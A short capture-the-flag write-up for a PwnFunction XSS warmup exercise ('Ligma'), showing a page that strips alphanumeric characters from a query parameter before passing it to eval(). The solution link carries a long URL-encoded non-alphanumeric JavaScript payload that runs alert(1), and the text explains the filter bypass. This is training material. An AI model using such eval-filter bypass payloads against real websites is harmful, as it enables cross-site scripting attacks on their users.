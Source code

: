 # Ligma - Exercise 5

[Problem](https://xss.pwnfunction.com/warmups/ligma/)

Solution is not complete. It just executes `alert(1)`. For `alert(1337)`, the link will be much larger.

[Solution](https://sandbox.pwnfunction.com/warmups/ligma.html?balls=%5B%5D%5B%5B%5B%5D%5B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B%5B%5D%2B%7B%7D%5D%5B%2B%5B%5D%5D%5B%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B!%5B%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B!!%5B%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B%5B%5D%5D%2B%5B!!%5B%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B!!%5B%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B%5B%5D%5D%2B%5B%5B%5D%2B%7B%7D%5D%5B%2B%5B%5D%5D%5B%2B!%2B%5B%5D%5D%2B%5B!!%5B%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B!%2B%5B%5D%5D%5D%5B%5B%5B%5D%5B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B%5B%5D%2B%7B%7D%5D%5B%2B%5B%5D%5D%5B%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B!%5B%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B!!%5B%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B%5B%5D%5D%2B%5B!!%5B%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B!!%5B%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B%5B%5D%5D%2B%5B%5B%5D%2B%7B%7D%5D%5B%2B%5B%5D%5D%5B%2B!%2B%5B%5D%5D%2B%5B!!%5B%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B!%2B%5B%5D%5D%5D%60%24%24%7B%5B!%7B%7D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B!%2B%5B%5D%5D%2B%5B!%7B%7D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B!%7B%7D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B!!%5B%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B!%2B%5B%5D%5D%2B%5B!!%5B%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B%2B!%2B%5B%5D%5D%5B%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%5D%2B%5B%5D%5D%5B%2B%5B%5D%5D%5B%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%7D%24%60%60%60)

## Explanation

Here is the part of the source code that can accept JS Injections.

```html
    <script>
        balls = (new URL(location).searchParams.get('balls') || "Ninja has Ligma")
        balls = balls.replace(/[A-Za-z0-9]/g, '')
        eval(balls)
    </script>
```

You can pass a Javascript command directly to balls variable, which then gets executed as it gets passed to `eval()`. But notice that all the alphanumeric characters in the variable `balls` get replaced by empty space.

You can escape this replacing by using this [trick](https://portswigger.net/research/executing-non-alphanumeric-javascript-without-parenthesis). Now URL encode the non-alphanumeric code, and then and set that as the value of `balls`. Done!
